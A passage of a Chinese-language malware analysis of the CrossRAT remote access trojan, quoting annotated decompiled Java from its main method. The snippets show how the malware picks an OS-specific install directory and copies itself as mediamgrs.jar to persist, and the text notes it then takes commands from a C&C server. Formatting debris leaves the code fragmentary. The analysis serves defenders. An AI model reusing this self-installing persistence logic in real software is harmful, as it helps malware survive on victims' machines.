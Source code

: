 crossrat/client.jad: public static void main(String args[])`<br>
当恶意软件开始执行之后，将会调用这个main方法。调用之后，它将会执行以下任务：
1. 如果有必要的话，会根据目标操作系统来执行特定的持久化感染安装；
1. 检查远程C&amp;C服务器的命令；
<li>执行远程C&amp;C服务器发送过来的任何指令任务；<br>
首秀按，这款恶意软件会在目标主机中进行安装，并实现持久化感染。正如之前所介绍的那样，这种逻辑是操作系统指定型的，在设置持久化感染之前（例如注册表键和Launch Agent plist等等），恶意软件需要将自身文件（例如mediamgrs.jar）拷贝到特定位置。我在下方代码中添加了注释：</li>
```
public static void main(String args[])
`{`
Object obj;
supportedSystems = c.b();String tempDirectory;
//get temp directory
s = System.getProperty(s = “java.io.tmpdir”);

installDir = “”;

//Windows?
// build path to Windows install directory (temp directory)
if(supportedSystems.a() == c.a)
`{`

installDir = (new StringBuilder(String.valueOf(s)))
              .append("\").toString();
`}`

//Mac?
// build path to Mac install directory (~/Library)
else if(supportedSystems.a() == c.b)
`{`

userHome = System.getProperty("user.home");
installDir = (new StringBuilder(String.valueOf(userHome)))
              .append("/Library/").toString();
`}`

//Linux, etc?
// build path to Linux, etc install directory (/usr/var/)
else
`{`

installDir = "/usr/var/";
`}`

…在上面的代码中，一旦动态创建完成安装目录的路径之后，恶意软件便会将自身文件(mediamgrs.jar)拷贝到这个安装目录之中： 
public static void main(String args[])
`{`
…

//build full path and instantiate file obj
installFileObj = new File(installDir + “mediamgrs.jar”);

//copy self to persistent location
org.a.a.a.b.a(((File) (selfAsFile)), installFileObj);
```
